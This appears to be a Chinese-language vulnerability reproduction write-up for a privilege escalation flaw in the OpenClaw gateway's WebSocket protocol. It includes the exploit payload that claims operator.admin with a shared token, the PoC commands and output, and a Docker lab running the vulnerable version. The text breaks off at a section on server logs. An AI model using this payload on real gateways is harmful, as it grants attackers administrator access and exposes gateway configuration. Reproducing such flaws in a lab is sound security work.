





# OpenClaw WebSocket 共享令牌权限提升漏洞

## 1漏洞利用 PoC

### 1.1 PoC 脚本说明

PoC 脚本 `poc.py` 利用 OpenClaw 网关 WebSocket 协议实现权限提升攻击：

1. 与目标网关建立 WebSocket 连接
2. 接收服务端发送的 `connect.challenge` 质询
3. 发送 `connect` 请求，携带共享密码认证 + `scopes: ["operator.admin"]` + 不提供设备身份
4. 认证成功后，调用多个管理员级别 RPC 方法验证权限提升

### 1.2 关键利用代码

```python
# 核心利用载荷: 认证请求中声明管理员权限 + 不绑定设备
connect_msg = {
    "type": "req",
    "method": "connect",
    "id": "1",
    "params": {
        "client": {
            "id": "cli",
            "version": "2026.3.11",
            "mode": "cli",
            "platform": "linux",
        },
        "minProtocol": 3,
        "maxProtocol": 3,
        "role": "operator",
        "auth": {
            "password": "<shared_password>"  # 或 "token": "<shared_token>"
        },
        "scopes": ["operator.admin"],  # ← 关键: 声明管理员权限
        # device 字段省略 — 不绑定设备
    },
}
```

### 1.3 运行 PoC

```bash
# 安装依赖
pip3 install websockets

# 使用共享密码认证
python3 poc.py --target ws://127.0.0.1:18789 --password <password>

# 使用共享令牌认证
python3 poc.py --target ws://127.0.0.1:18789 --token <token>
```

> 截图证据: PoC 执行完整输出

```
╔══════════════════════════════════════════════════════════════╗
║   OpenClaw WebSocket Shared-Token Privilege Escalation PoC  ║
║   GHSA-rqpp-rjj8-7wv8  |  CVSS 10.0 Critical              ║
║   影响版本: OpenClaw <= 2026.3.11                            ║
╚══════════════════════════════════════════════════════════════╝

============================================================
[阶段 1] WebSocket 连接 + 共享令牌认证 + 权限声明
============================================================
[*] 正在连接目标: ws://127.0.0.1:18789
[+] WebSocket 连接建立成功
[+] 收到认证质询 (nonce: bbf6bd1d-3685-42...)
[*] 使用共享密码认证, 声明权限: operator.admin
[*] 发送认证请求:
    method: connect
    auth: 共享密码
    scopes: ["operator.admin"]
    device: <未提供> (无设备绑定)
[+] 认证成功! 服务端版本: 2026.3.11

============================================================
[阶段 2] 验证权限提升 — 调用 operator.admin 级别 RPC
============================================================

[*] 调用 set-heartbeats (需要 operator.admin)
[+] set-heartbeats 调用成功!

[*] 调用 config.get (读取网关配置)
[+] config.get 调用成功! 已获取完整网关配置
    配置大小: 2309 bytes

[*] 调用 sessions.list (列举会话)
[+] sessions.list 调用成功!

============================================================
[!!!] 漏洞利用成功 — 权限提升已确认!
[!!!] 目标 ws://127.0.0.1:18789 存在 GHSA-rqpp-rjj8-7wv8
[!!!] 共享令牌用户通过声明 operator.admin 获得管理员权限
[建议] 请立即升级至 OpenClaw >= 2026.3.12
============================================================

[*] WebSocket 连接已关闭
```

## 2. Docker 容器环境搭建

### 2.1 环境准备

使用 Docker 搭建漏洞复现环境，部署 OpenClaw v2026.3.11 漏洞版本。

**Dockerfile**:

```dockerfile
FROM node:22-slim

# 安装系统依赖
RUN apt-get update && apt-get install -y git curl && rm -rf /var/lib/apt/lists/*

# 安装漏洞版本 OpenClaw
RUN npm install -g openclaw@2026.3.11

# 创建配置目录
RUN mkdir -p /root/.openclaw

# 配置网关
RUN openclaw config set gateway.mode local && \
    openclaw config set gateway.controlUi.dangerouslyAllowHostHeaderOriginFallback true

EXPOSE 18789

ENTRYPOINT ["openclaw"]
CMD ["gateway", "run", "--port", "18789", "--bind", "lan", \
     "--auth", "password", "--password", "test_vuln_2024", "--verbose"]
```

**docker-compose.yml**:

```yaml
services:
  openclaw-vulnerable:
    build:
      context: .
      dockerfile: Dockerfile
    container_name: openclaw-vuln-gateway
    ports:
      - "18789:18789"
    restart: unless-stopped
    healthcheck:
      test: ["CMD", "curl", "-f", "http://localhost:18789/health"]
      interval: 10s
      timeout: 5s
      retries: 3
```

### 2.2 构建与启动

```bash
# 构建 Docker 镜像
$ docker compose build

# 启动容器
$ docker compose up -d
```





### 2.3 验证网关启动

```bash
# 检查容器运行状态
$ docker ps --filter "name=openclaw-vuln-gateway"
CONTAINER ID   IMAGE                          STATUS                    PORTS
d013729064e4   openclaw-openclaw-vulnerable   Up 14 minutes (healthy)   0.0.0.0:18789->18789/tcp

# 检查 health 端点
$ curl -s http://127.0.0.1:18789/health
{"ok":true,"status":"live"}
```



## 3. 漏洞复现成功

### 3.1 执行 PoC

在 Docker 容器网关运行后，从宿主机执行 PoC 脚本：

```bash
$ python3 poc.py --target ws://127.0.0.1:18789 --password test_vuln_2024
```

### 

网关服务端日志确认攻击连接


